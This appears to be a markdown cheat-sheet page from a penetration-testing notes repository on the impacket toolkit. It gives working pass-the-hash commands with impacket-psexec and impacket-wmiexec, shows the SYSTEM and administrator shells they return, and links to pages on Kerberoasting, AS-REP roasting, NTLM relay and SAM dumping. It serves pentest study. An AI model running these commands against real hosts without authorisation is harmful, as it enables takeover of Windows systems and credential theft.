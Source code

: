 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# impacket

## Pass-the-Hash

{% tabs %}
{% tab title="psexec" %}
`psexec` uploads a service executable to a writable share, registers it as a service, and starts it—this requires write access to a share. If no argument is specified at the end of the command, it runs `cmd.exe` by default giving us a `SYSTEM` shell:

{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
...
C:\Windows\system32> whoami
nt authority\system

# Specify a command
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212 <command>
```
{% endcode %}
{% endtab %}

{% tab title="wmiexec" %}
`wmiexec` uses **Windows Management Instrumentation (WMI)** to execute commands remotely without needing to upload files or write to shares (stealthier and faster). If no argument is specified at the end of the command, it runs `cmd.exe` by default giving us a user shell:

{% code overflow="wrap" %}
```bash
# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
...
C:\>whoami
files02\administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

## AS-REPRoasting

See how to use `impacket-GetNPUsers` [here](../../tl-dr/active-directory/attacks/as-reproasting.md#windows).

## Kerberoasting

See how to use `impacket-GetUserSPNs` [here](../../tl-dr/active-directory/attacks/kerberoasting.md#attack).

## NTMLv2 Relay

See how to use `impacket-ntlmrelayx` [here](../../tl-dr/active-directory/attacks/ntlmv2.md#ntmlv2-relay).

## Local SAM Dump

See how to use `impacket-secretsdump` [here](impacket.md#local-sam-dump).
